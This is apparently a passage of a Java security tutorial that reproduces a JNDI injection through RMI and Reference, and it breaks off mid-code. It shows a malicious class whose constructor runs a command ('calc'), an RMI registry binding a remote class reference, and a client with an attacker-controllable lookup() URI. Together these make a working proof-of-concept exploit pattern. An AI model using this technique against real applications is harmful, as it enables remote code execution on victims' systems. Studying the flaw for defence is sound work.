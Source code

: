 ```java 
public  class  EvilObject  implements  Serializable  { 
    public  EvilObject ()  throws  Exception  { 
        System.out.println( "EvilObject constructor called" ); 
        Runtime.getRuntime().exec( "calc" ); 
    } 
} 
```
RMIService.java, if the object instance can be successfully bound to the RMI service, it must directly or indirectly implement the Remote interface. Here, ReferenceWrapper inherits from the UnicastRemoteObject class and implements the Remote interface:   
```java
public  class  RMIService  { 
    public  static  void  main (String args[])  throws  Exception  { 
        Registry registry = LocateRegistry.createRegistry( 1099 ); 
        Reference refObj =  new  Reference( "EvilObject" ,  "EvilObject" ,  "http://127.0.0.1:8080/" ); 
        ReferenceWrapper refObjWrapper =  new  ReferenceWrapper(refObj); 
        System.out.println( "Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'" ); 
        registry.bind( "refObj" , refObjWrapper); 
    } 
} 
```

Here, RMIService.java and JNDIClient.java are placed in the same directory, and EvilObject.java is placed in another directory (to prevent the application side from instantiating the EvilObject object during the reappearance of the vulnerability, find the compiled bytes from the current path of the CLASSPATH code, without going to the remote end to download), compile these three files, and execute commands in different windows, and finally successfully implement JNDI injection through RMI+Reference:

![jndi](/home/Downloads/7.png)

> Vulnerability point 1 - lookup parameter injection

When the parameters of the lookup() function of the JNDI client are controllable, that is, the URI is controllable, according to the principle of dynamic conversion of the JNDI protocol, the attacker can pass in a malicious URI address to point to the attacker's RMI registry service, so that the victim client can load A malicious class bound to the attacker's RMI registry service, enabling remote code execution.

The following takes the RMI service as an example. The principle is the same as the previous summary. The local JDK version is 1.8.0_73.

AClient.java is a JNDI client. The original context has been set to connect to the local RMI registry service on port 1099 by default. At the same time, the program allows the user to enter the URI address to dynamically convert the JNDI access address, that is, the lookup() function here. Parameters can be controlled: 

```java
public  class  AClient  { 
    public  static  void  main (String[] args)  throws  Exception  { 
        Properties env =  new  Properties(); 
        env.put(Context.INITIAL_CONTEXT_FACTORY,  "com.sun.jndi.rmi.registry.RegistryContextFactory" ); 
        env.put(Context.PROVIDER_URL,  "rmi://127.0.0.1:1099" ); 
        Context ctx =  new  InitialContext(env); 
        String uri =  "" ; 
        if (args.length ==  1 ) { 
            uri = args[ 0 ]; 
            System.out.println( "[*]Using lookup() to fetch object with "  + uri); 
            ctx.lookup(uri); 
        }  else  { 
            System.out.println( "[*]Using lookup() to fetch object with rmi://127.0.0.1:1099/demo" ); 
            ctx.lookup( "demo" ); 
        } 
```